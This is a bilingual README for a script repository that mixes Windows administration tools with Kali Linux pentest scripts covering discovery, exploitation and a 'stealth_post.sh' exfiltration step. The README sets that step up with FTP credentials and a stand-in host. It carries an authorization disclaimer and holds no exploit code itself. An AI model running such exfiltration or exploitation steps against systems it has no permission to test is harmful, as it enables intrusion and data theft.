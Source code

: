 # PowerShell Scripts Repository

Ce dépôt contient une collection de scripts PowerShell utiles pour l'administration système et l'automatisation de tâches courantes.

## 📂 Structure du dépôt

```
scripts/
├── linux/             # Scripts Bash pour Linux
│   ├── check_dependencies.sh
│   ├── setup_api.sh
│   ├── pentest_discovery.sh
│   ├── pentest_verification.sh
│   ├── pentest_exploitation.sh
│   ├── scan_wifi.sh
│   └── stealth_post.sh
├── powershell/        # Scripts PowerShell pour Windows
│   ├── DiskUsageReport.ps1
│   ├── Get-SystemInfo.ps1
│   ├── ManageServices.ps1
│   ├── VMManagement.ps1
│   ├── LinkCrawler.ps1
│   ├── TeamsManagement.ps1
│   ├── SharePointManagement.ps1
│   ├── UserManagement.ps1
│   └── SecurityCheck.ps1
├── sample_logs.json   # Journalisation fictive pour tests
```

Le fichier `targets.txt` à la racine contient la liste des cibles pour les scripts de pentest. Les scripts Bash utilisent un chemin relatif basé sur leur propre emplacement pour le retrouver, ce qui permet de les lancer depuis n'importe quel répertoire.

## 🛠️ Prérequis / Prerequisites

- **Outils / Tools** : `nmap`, `gvm-cli` et les modules PowerShell nécessaires (Hyper-V, ExchangeOnlineManagement, Teams, etc.).
- **Privilèges / Privileges** : certains scripts exigent des droits administrateur ou root.

## ⚙️ Utilisation rapide

Les scripts peuvent être lancés via PowerShell :

```powershell
# Exemple : afficher les informations système
.\scripts\powershell\Get-SystemInfo.ps1

# Exemple : vérifier l'état d'un service
.\scripts\powershell\ManageServices.ps1 -Action status -ServiceName spooler

# Exemple : lister les machines virtuelles Hyper-V
.\scripts\powershell\VMManagement.ps1 -Action list

# Exemple : démarrer une machine virtuelle
.\scripts\powershell\VMManagement.ps1 -Action start -VMName "TestVM"
# Exemple : lister les equipes Teams
.\scripts\powershell\TeamsManagement.ps1 -Action list
# Exemple : créer un canal Teams
.\scripts\powershell\TeamsManagement.ps1 -Action createchannel -TeamName "Marketing" -ChannelName "Général"
# Exemple : ajouter plusieurs membres depuis un CSV
.\scripts\powershell\TeamsManagement.ps1 -Action bulkadd -TeamName "Marketing" -CsvPath .\users.csv
# Exemple : lister les boîtes aux lettres Exchange Online
.\scripts\powershell\ExchangeOnlineManagement.ps1 -Action list
# Exemple : lister les sites SharePoint Online
.\scripts\powershell\SharePointManagement.ps1 -Mode Online -Action ListSites -Credential (Get-Credential)
# Exemple : créer un site SharePoint On-Premise
.\scripts\powershell\SharePointManagement.ps1 -Mode OnPrem -Action CreateSite -SiteUrl "http://spserver/sites/test" -Template STS#0 -Credential (Get-Credential)
# Exemple : vérifier les paramètres de sécurité
.\scripts\powershell\SecurityCheck.ps1
```
> **Note :** `ManageServices.ps1` et `UserManagement.ps1` doivent être exécutés dans une session PowerShell élevée.
> **Exemple :** cherchez "PowerShell" dans le menu Démarrer, faites un clic droit puis sélectionnez "Exécuter en tant qu'administrateur".

Chacun des scripts possède des paramètres décrits en début de fichier.

```bash
# Installation de l'API Mistral
# Le script télécharge install.sh séparément et vérifie son empreinte SHA-256
bash scripts/linux/setup_api.sh
# Activer l'environnement virtuel puis lancer l'API
source /opt/mistral-env/bin/activate
python ~/mistral_api.py
```

### Scripts Kali Linux

```bash

# Vérifier les dépendances nécessaires
bash scripts/linux/check_dependencies.sh

# Phase de découverte (scan complet et scripts de vulnérabilités)
bash scripts/linux/pentest_discovery.sh
# Phase de vérification des vulnérabilités
bash scripts/linux/pentest_verification.sh
# Phase d'exploitation (si autorisée)
bash scripts/linux/pentest_exploitation.sh
# Génère un fichier de suggestions avec searchsploit si des CVE ont été détectées
# Exfiltration basique (si autorisée)
export FTP_USER="utilisateur"
export FTP_PASS="motdepasse"
export FTP_HOST="exemple.com"
export FTP_PATH="uploads/sysinfo.txt"
bash scripts/linux/stealth_post.sh
```

Chaque exécution de `pentest_discovery.sh` crée un sous-dossier horodaté dans `pentest_results`, conservant les résultats des scans précédents.
Each run of `pentest_discovery.sh` outputs to a timestamped subfolder inside `pentest_results`, preserving previous scan results.

## ⚠️ Disclaimer / Avertissement

Pentest scripts (dont `pentest_discovery.sh`, `pentest_verification.sh`, `pentest_exploitation.sh`) et `stealth_post.sh` doivent être utilisés uniquement sur des systèmes pour lesquels vous disposez d'une autorisation explicite.

Pentest scripts and `stealth_post.sh` must only be run on systems where you have been granted explicit permission. Unauthorized use may be illegal.

## License

This project is licensed under the MIT License. See [LICENSE](LICENSE) for details.
